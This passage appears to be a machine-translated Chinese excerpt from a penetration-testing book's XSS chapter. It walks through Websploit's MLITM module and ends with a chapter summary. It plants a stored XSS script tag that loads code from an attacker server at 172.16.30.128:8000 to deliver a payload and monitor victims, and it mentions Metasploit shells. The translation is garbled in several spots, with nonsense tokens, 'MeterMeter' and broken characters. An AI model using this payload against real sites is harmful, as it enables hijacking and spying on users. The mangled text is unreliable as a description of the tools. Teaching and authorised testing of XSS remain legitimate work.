 由于这一章都是关于 XSS 的，基于 DOM 的 To.T0.左边的中间人 To1 T1（MultT2A.MLITM TA3T.T）攻击是我们正在使用的工具，所以让我们来看看我们如何利用该模块。您需要下载最新版本，从 tarball 中提取它，然后使用安装脚本。

一旦我们安装了它，我们只需从终端会话调用`websploit`命令，它就会启动它。从这里开始，我们将使用 network/mlitm。随着模块的发展，你不会比 MLIMM 工具更简单。你没有选择的余地，因为这个模块基本上由一个侦听 Web 服务器（类似于一个处理程序）和一个 Python 模块（AuthT1）组成，它充当默认的有效负载。但与任何 XSS 攻击一样，我们的目标是在用户信任的路径中放置一个脚本，然后使用它将其浏览器重定向到攻击服务器，在那里可以安装此负载，并协调信息或操作。

我在这次攻击中使用的脚本非常简单；我们希望将受害者浏览器引入我们的 C2 服务器/攻击箱，并允许运行在默认端口`8000`上的 webserver Websploit 为此目的交付有效负载并建立我们的通道：1

```
<script src=http://172.16.30.128:8000></script>
```

我们将其放在以前使用过的同一博客条目字段中，在您知道之前，我们有一个不幸的受害者出现并使用该链接（如以下屏幕截图所示）：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_16-1.png)

脚本条目和对受害者的外观�� 简单但有效。

在我们的 Kali 框中，我们可以看到我们正在交付有效负载，并通过引用链接看到用户的流量，正如我们在下面的屏幕截图中开始看到的那样。从这里，您可以自由地试验有效负载的改变，并实现我们在其他工具中看到的一些控制。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_17-1.png)

Websploit 提供了一种无需任何修饰的监听和有效载荷传递服务。

Websploit 在攻击链的其他领域是一个强大的工具，它与混合攻击模块（如 AutoWn、DoS）及其 WiFi 攻击配合得很好。对于 XSS，我发现 Metasploit 在管理有效负载和提供 shell 选项方面提供了更多的通用性。除了 MeterMeter 之外，还有十几种其他的外壳选择，这取决于你的目标可以逃脱什么，以及需要什么样的隐身和功能组合。*  *## 总结

* * *

自从动态内容的爆炸将 JavaScript 带入 web 开发的前沿以来，XSS 攻击一直是安全专业人员和数百万受害者的眼中钉。再加上建立信任的过时手段（基于实体，没有输入验证），这使得 XSS 成为 OWASP 十大漏洞已经超过 10 年。很明显，应该采取一些措施来引起更多的关注，而笔式测试的使用增加才是关键。

XSS 的工具很多，虽然我们讨论了这里包含的一些更易访问的工具，但在准备编写本章时，我发现这些工具集经历了一些起伏；随着时间的推移，一些工具已不再受欢迎，而另一些工具似乎仍在继续竞争�� Rapid7 是维护和赞助 Metasploit 的关键角色，而 XSSer 和 Websploit 都偶尔得到支持。我鼓励您尽可能深入研究这些工具和其他工具，以便更好地了解哪些工具应该放在您的工具箱中。明智的做法是，每个角色至少有两个工具，具有不同的优势和重叠能力，以帮助更好地覆盖角落案例场景。

在本章中，我们介绍了 XS 的类型，它们在我们追求*pwnership*（黑客说可以随意破坏网站或目标）*、*的过程中对我们造成伤害或帮助的可能性，以及一些利用它们来了解客户机及其与服务器关系的好方法。我们还看到，XSS 可以为真正的黑帽攻击者提供一个险恶的立足点，使他们能够操纵系统资源并监视受害者。XSS 的重点是利用客户机-服务器之间的信任关系来危害客户机，我们下一章将讨论客户端攻击以及如何利用相同的信任关系来控制或强制服务器本身。这些攻击被广泛称为注入攻击，并涵盖了 web 应用安全领域的一些热门话题，如 HTML、SQL、XML，甚至经常被忽视的 LDAP。在下一章结束时，您将有一个坚实的攻击基础，以帮助在大多数应用和客户中找到关键数据泄露和主机控制用户。我很高兴你能坚持到这一步，让我们看看我们能造成或防止什么进一步的损害！*